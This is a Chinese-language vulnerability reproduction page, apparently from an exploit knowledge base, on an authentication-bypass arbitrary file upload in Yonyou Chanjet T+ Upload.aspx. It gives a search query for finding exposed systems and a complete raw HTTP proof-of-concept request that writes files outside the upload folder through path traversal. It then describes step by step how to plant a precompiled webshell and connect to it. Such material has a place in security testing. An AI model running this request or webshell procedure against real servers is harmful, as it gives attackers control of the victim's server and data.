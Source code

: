 # 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-2353804.png)

存在漏洞的接口为` /tplus/SM/SetupAccount/Upload.aspx `, 对应文件 `App_Web_upload.aspx.9475d17f.dll`

![img](../../../.vuepress/public/img/1662034256298-447ab241-2def-46e0-a97d-9dae60549044.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```html
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell

![img](../../../.vuepress/public/img/1662034644623-835164ab-e259-41ab-9999-2a5ef462a462.png)

将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![img](../../../.vuepress/public/img/1662037558563-ffb9835f-fc57-4d45-bc08-dfdf5cb2892d.png)

![img](../../../.vuepress/public/img/1662037573454-3bc3ef0c-3ff2-46b6-b90a-ef3c72150be2.png)

![img](../../../.vuepress/public/img/1662037605211-d44eed98-a1e1-4bac-85be-bb2909844f68.png)

再访问写入的Webshell进行连接

```html
/tplus/shell.aspx?preload=1	
```